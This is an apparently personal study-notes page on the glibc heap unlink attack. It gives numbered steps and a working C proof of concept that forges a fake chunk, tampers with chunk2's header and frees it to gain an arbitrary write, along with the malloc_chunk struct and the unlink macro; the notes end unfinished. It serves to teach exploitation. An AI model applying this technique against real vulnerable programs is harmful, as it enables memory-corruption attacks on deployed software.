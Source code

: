 ```yaml
---
layout: default
title: Unlink Attacks
tags:
  - pwn
  - heap
---
```


Unlinking for the heap is the processes of removing free chunks from a bin.

## Steps
1. setup 2 adjacent chunks of smallbins
2. build a fake_chunk at start of chunk1-> and it should overflow into chunk2 metadata so can set `prev_size` and `prev_inuse` bit
3. Enter fake chunk in chunk1
4. Trigger the unlink by freeing chunk 2
5. overwrite chunk1 data with target address



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct chunk_structure {
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10];
};

int main () {   

    unsigned long long *chunk1, *chunk2;
    //void *chunk1, *chunk2;
    struct chunk_structure *fake_chunk, *chunk2_hdr;
    char data[20];

    // get to non fastbin chunks
    chunk1 = malloc(0x80);
    chunk2 = malloc(0x80);
    printf("chunk1 ptr : %p\nchunk2 ptr : %p\n", chunk1, chunk2);


    // forge a fake chunk
    fake_chunk = (struct chunk_structure*)chunk1;
    // setup fd and bk pointers to bypass unlink security check
    fake_chunk->fd = (struct chunk_structure*)(&chunk1 - 3); // p->fd->bk == P
    fake_chunk->bk = (struct chunk_structure*)(&chunk1 - 2); // p->bk->fd == p
    printf("Forged fake chunk : %p\nfake_chunk->fd : %p\nfake_chunk->bk : %p\n", &fake_chunk, &fake_chunk->fd, &fake_chunk->bk);

    // modify the header of chunk2 to pass security checks
    chunk2_hdr = (struct chunk_structure*)(chunk2 -2);
    chunk2_hdr->prev_size = 0x80;
    chunk2_hdr->size &= ~1; // uset prev_in_use bit

    printf("Modify chunk2 header : %p\n", &chunk2_hdr);

    
    free(chunk2);
    printf("Now when chunk2 is freed, attacker's fake chunked is unlinked\n");

		 
    chunk1[3] = (unsigned long long)data;
    strcpy(data, "Victim's data");
    printf("Data : %s\n", data);

    chunk1[0] = 0x002164656b636168LL;

    printf("Data : %s\n", data);


    return 0;
}
```

- at least 2 chunks must be allocated
- Make sure that allocated chunks fall in the smallbin range.
- have control of the first chunk and can overflow into second chunk
- A new fake chunk is created in the data part of `chunk1`. The `fd` and `bk` pointers are adjusted to pass the `corrupted double linked list` security check.
- The contents that are overflowed into the second chunk header must set appropriate `prev_size` and `prev_in_use` bit. This ensures that whenever the second chunk is freed, the fake chunk will be detected as 'freed' and will be `unlinked`.  Make sure the `prev_size` is equal to the size of the previous chunk.
- 




```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```













when a chunk (bigger than the tcache size) is allocated, it is removed from the doubly-linked list



```c
#define unlink(P, BK, FD) {
	FD = P->fd;
	BK = P->bk;
	FD->bk = BK;
	BK->fd = FD;
}

//  p= previous block
```

take 

example

